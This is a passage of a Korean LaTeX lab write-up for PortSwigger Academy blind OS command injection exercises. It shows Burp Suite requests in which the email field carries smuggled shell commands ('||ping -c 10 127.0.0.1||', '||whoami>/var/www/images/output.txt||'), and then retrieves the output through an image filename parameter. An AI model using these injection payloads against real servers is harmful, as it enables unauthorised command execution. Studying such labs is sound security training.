      
\includegraphics[width=0.7\textwidth]{../figure/figure3.png}
      \caption{피드백 폼}
      \label{fig:feedback-form}
      \end{figure}
      \item Burpsuite Proxy 탭에서 요청이 가로채진 것을 확인
      \item 요청의 본문에서 email 매개변수 값을 수정하여 \texttt{ping -c 10 127.0.0.1} 명령을 삽입
      \begin{lstlisting}[label={lst:blind-original-request},caption={원본 요청 (original request)}]
      ...
      Referer: https://0a3500a4041067458027b2da003a0060.web-security-academy.net/feedback
      Accept-Encoding: gzip, deflate, br
      Priority: u=1, i

      csrf=0Fdn9Kp5NSKWRNwvp9xiuFSt0gJ5DaXU&name=potato&email=potato%40potato.com&subject=potato&message=potato
      \end{lstlisting}

      \begin{lstlisting}[label={lst:modified-request},caption={변동된 요청 (modified request)}]
      ...
      Referer: https://0a3500a4041067458027b2da003a0060.web-security-academy.net/feedback
      Accept-Encoding: gzip, deflate, br
      Priority: u=1, i

      csrf=0Fdn9Kp5NSKWRNwvp9xiuFSt0gJ5DaXU&name=potato&email=potato||ping+-c+10+127.0.0.1||&subject=potato&message=potato
      \end{lstlisting}
      \item 수정된 요청을 서버로 전송 및 결과 확인
      \begin{figure}[htbp]
      \centering
      
\includegraphics[width=0.7\textwidth]{../figure/figure4.png}
      \caption{ping 명령의 결과}
      \label{fig:ping-result}
      \end{figure}

    \end{enumerate}

    \newpage
    \item[추가 분석: Email 필드 외 다른 필드가 안되는 이유]\leavevmode\par
    우선 Email 필드만 형식 검증이 이루어지는 이유는 크롬의 개발자 도구를 사용한 html 소스코드 분석을 통해 알 수 있습니다. 아래의 소스코드를 보면 
    Email 필드에 \texttt{type="email"} 속성이 지정되어 있습니다. 이는 HTML5에서 제공하는 기본적인 이메일 형식 검증 기능을 사용한다는 의미입니다

    \begin{lstlisting}[label={lst:modified-request},caption={피드백 폼의 HTML 소스 코드}]
      ...
      <form id="feedbackForm" action="/feedback/submit" method="POST" enctype="application/x-www-form-urlencoded">
                        <input required type="hidden" name="csrf" value="o0ntQ30pBpol2oz7yfxFirIbXBangH4v">
                        <label>Name:</label>
                        <input required type="text" name="name">
                        <label>Email:</label>
                        <input required type="email" name="email">
                        <label>Subject:</label>
                        <input required type="text" name="subject">
                        <label>Message:</label>
                        <textarea required rows="12" cols="300" name="message"></textarea>
                        <button class="button" type="submit">
                            Submit feedback
                        </button>
                        <span id="feedbackResult"></span>
                    </form>
      ...
    \end{lstlisting}

    다만, 우리의 실습에서는 Burpsuite를 사용하기 때문에 브라우저 차원의 검증을 우회할 수 있습니다.
    그럼에도 불구하고 아래의 요청을 보내면 에러메세지가 나타납니다.
    \begin{lstlisting}[label={lst:email-invalid},caption={Email 필드에 삽입된 명령어가 거부되는 요청}]
    ...
    csrf=o0ntQ30pBpol2oz7yfxFirIbXBangH4v&name=potato&email=potato||&subject=potato&message=%E3%84%B4%E3%85%81%E3%85%87%E3%84%B4%E3%85%81%E3%85%87
    \end{lstlisting}
    위의 경우 Failed to submit feedback: "Could not save"라는 에러메세지가 나타납니다.
    이로써, 추론할 수 있는 Email 필드에 삽입된 명령어가 셸에 전달되어 실행될 가능성이 높은 이유는 다음과 같습니다.
    다른 필드(예: Name, Subject, Message)의 경우에는 간단히 DB 저장·서버 검증만 거치고 셸에 전달되지 않는 것으로 추정됩니다.
    반면, Email 필드는 이메일 도메인( @ 뒤 )에 대한 네임서버/라우팅 체크를 위해 nslookup/ping/외부 검사 유틸 호출이 필요할 수 있습니다.
    혹은 메일 발송을 위해 셸 명령어를 호출하는 로직이 있거나 서버가 email을 받아 외부 유틸이나 스크립트에 넘기고 그 호출이 실패해서 예외가 발생하는 것일 수도 있습니다.
    따라서, Email 필드에 삽입된 명령어가 셸에 전달되어 실행될 가능성이 높습니다. 다만, 정확한 내부 동작은 서버 소스코드를 분석하지 않는 이상 알 수 없습니다.

      \begin{figure}[htbp]
      \centering
      
\includegraphics[width=0.7\textwidth]{../figure/figure5.png}
      \caption{Could not save 에러 메세지}
      \label{fig:could-not-save}
      \end{figure}

\end{description}

\newpage
\subsection*{Lab: Blind OS command injection with output redirection}
\begin{description}
  \item[\textbf{문제 설명:}] 이 실습은 피드백 제출(feedback) 기능에 존재하는 \emph{블라인드(Blind) OS 명령어 삽입} 취약점을 다룹니다.  
  \item[\textbf{핵심 포인트:}]\leavevmode\par
    \begin{itemize}
      \item 애플리케이션은 사용자로부터 받은 입력을 포함하는 셸 명령을 실행하지만, 명령의 표준 출력은 HTTP 응답으로 직접 반환하지 않습니다.  
      \item 추가로 웹서버가 이미지를 제공하는 쓰기 가능한 디렉터리 \texttt{/var/www/images/}가 존재합니다.
    \end{itemize}

  \item[\textbf{실습 목표:}]\leavevmode\par
    \begin{itemize}
      \item 애플리케이션은 이 위치에서 제품 카탈로그용 이미지를 제공합니다. 
      주입된 명령의 출력을 이 폴더의 파일로 리다이렉트한 뒤, 그 파일을 불러오는 이미지 URL을 통해 파일 내용을 확인할 수 있습니다.
      실습 목표는 whoami 명령을 실행하고 그 출력을 확인하는 것입니다.
    \end{itemize}

  \item[\textbf{풀이 배경 지식}:]\leavevmode\par
    \begin{itemize}
      \item 리다이렉션: 명령의 출력을 파일로 리다이렉트하는 방법
      \item 이미지 URL: 웹에서 이미지를 불러오는 방법
    \end{itemize}

  \item[\textbf{풀이}:] \leavevmode\par
    3번 문제와 마찬가지로 Burpsuite를 사용하여 피드백 제출 요청을 가로채고, whoami 명령을 삽입하여 공격을 수행합니다.
    다만, 이번에는 whoami 명령의 출력을 \texttt{/var/www/images/} 디렉터리의 파일로 리다이렉트한 뒤, 
    그 파일을 불러오는 이미지 URL을 통해 파일 내용을 확인합니다.
    자세한 풀이 과정은 아래와 같습니다.
  \begin{enumerate}
    \item Burpsuite를 사용하여 피드백 제출 요청을 가로챕니다.
    \item 요청의 본문의 Email 필드 값을 수정하여 \texttt{whoami > /var/www/images/whoami.txt} 명령을 삽입합니다.
    
    \begin{lstlisting}[label={lst:blind-original-request},caption={원본 요청 (original request)}]
      ...
      csrf=KjqMoomIJ7U33OVTKzTDTGaWMNVwDO1G&name=potato&email=potato%40potato.com&subject=potato&message=afsdfsdfsd
    \end{lstlisting}

    \begin{lstlisting}[label={lst:modified-request},caption={변동된 요청 (modified request)}]
      ...
      csrf=KjqMoomIJ7U33OVTKzTDTGaWMNVwDO1G&name=potato&email=||whoami>/var/www/images/output.txt||&subject=potato&message=afsdfsdfsd
    \end{lstlisting}
    이떄 \texttt{>} 연산자는 리다이렉션 연산자이며, \texttt{whoami} 명령의 출력을 \texttt{/var/www/images/output.txt} 파일로 리다이렉트합니다.
    \item 수정된 요청을 서버로 전송합니다. 이떄 전송의 성공 여부는 \texttt{Thank you for submitting feedback!} 메시지로 확인할 수 있습니다.
    \item 파일을 출력하기 위해서 filename 파라미터에 접근해야 하므로, 상품 페이지로 이동합니다.
    \item 이후 filename 파라미터에 \texttt{output.txt}를 지정하여 \texttt{/var/www/images/output.txt} 파일을 불러옵니다.

    \begin{lstlisting}[label={lst:modified-request},caption={원본 요청 (original request)}]
    GET /image?filename=36.jpg HTTP/2
    Host: 0a53005403fa3e2281a86b82005100f1.web-security-academy.net
    \end{lstlisting}
    \begin{lstlisting}[label={lst:modified-request},caption={변동된 요청 (modified request)}]
    GET /image?filename=output.txt HTTP/2
    Host: 0a53005403fa3e2281a86b82005100f1.web-security-academy.net
    \end{lstlisting}

    \newpage
    \item 최종 결과를 아래처럼 확인할 수 있습니다.
    \begin{figure}[htbp]
      \centering
      
\includegraphics[width=0.7\textwidth]{../figure/figure6.png}
      \caption{문제3의 결과}
      \label{fig:whoami-result-2}
      \end{figure}

  \end{enumerate}


\end{description}

\end{document}
